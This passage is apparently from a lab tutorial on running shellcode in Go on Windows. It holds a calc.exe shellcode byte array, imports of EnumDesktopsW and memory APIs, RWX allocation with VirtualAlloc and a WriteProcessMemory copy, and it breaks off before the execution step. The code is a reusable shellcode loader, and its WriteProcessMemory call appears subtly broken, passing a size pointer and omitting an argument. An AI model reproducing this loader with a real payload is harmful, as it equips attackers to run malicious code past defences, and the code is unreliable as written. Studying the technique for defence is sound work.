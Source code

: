 In this lab we'll use a simple calc.exe shellcode instead of a reverse shell or any other payload.

```go
var shellcode = []byte{
  0x31, 0xc0, 0x50, 0x68, 0x63, 0x61, 0x6c, 0x63,
  0x54, 0x59, 0x50, 0x40, 0x92, 0x74, 0x15, 0x51,
  0x64, 0x8b, 0x72, 0x2f, 0x8b, 0x76, 0x0c, 0x8b,
  0x76, 0x0c, 0xad, 0x8b, 0x30, 0x8b, 0x7e, 0x18,
  0xb2, 0x50, 0xeb, 0x1a, 0xb2, 0x60, 0x48, 0x29,
  0xd4, 0x65, 0x48, 0x8b, 0x32, 0x48, 0x8b, 0x76,
  0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48,
  0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x03, 0x57,
  0x3c, 0x8b, 0x5c, 0x17, 0x28, 0x8b, 0x74, 0x1f,
  0x20, 0x48, 0x01, 0xfe, 0x8b, 0x54, 0x1f, 0x24,
  0x0f, 0xb7, 0x2c, 0x17, 0x8d, 0x52, 0x02, 0xad,
  0x81, 0x3c, 0x07, 0x57, 0x69, 0x6e, 0x45, 0x75,
  0xef, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x01, 0xfe,
  0x8b, 0x34, 0xae, 0x48, 0x01, 0xf7, 0x99, 0xff,
  0xd7,
}
```

Let's start by defining syscalls.

```go
func main(){
  // Load DLLs
  user32 := windows.NewLazyDLL("user32.dll")
  kernel32 := windows.NewLazyDLL("kernel32.dll")

  // Import calls
  EnumDesktopsW := user32.NewProc("EnumDesktopsW")
  GetProcessWindowStation := user32.NewProc("GetProcessWindowStation")
  GetCurrentProcess := kernel32.NewProc("GetCurrentProcess")
  VirtualAlloc := kernel32.NewProc("VirtualAlloc")
  WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
}
```

Now allocate the memory.

```go
address, _, _ := VirtualAlloc.Call(
  0,
  uintptr(len(shellcode)),
  windows.MEM_COMMIT | windows.MEM_RESERVE,
  windows.PAGE_EXECUTE_READWRITE,
)
```

Then we call `WriteProcessMemory` to copy shellcode to allocated address.

```go
pHandle, _, _ := GetCurrentProcess.Call()
size := uintptr(len(shellcode))

fmt.Println("Calling WriteProcessMemory...")
WriteProcessMemory.Call(
  pHandle,
  address,
  uintptr(unsafe.Pointer(&shellcode[0])),
  uintptr(unsafe.Pointer(&size)),
)
```
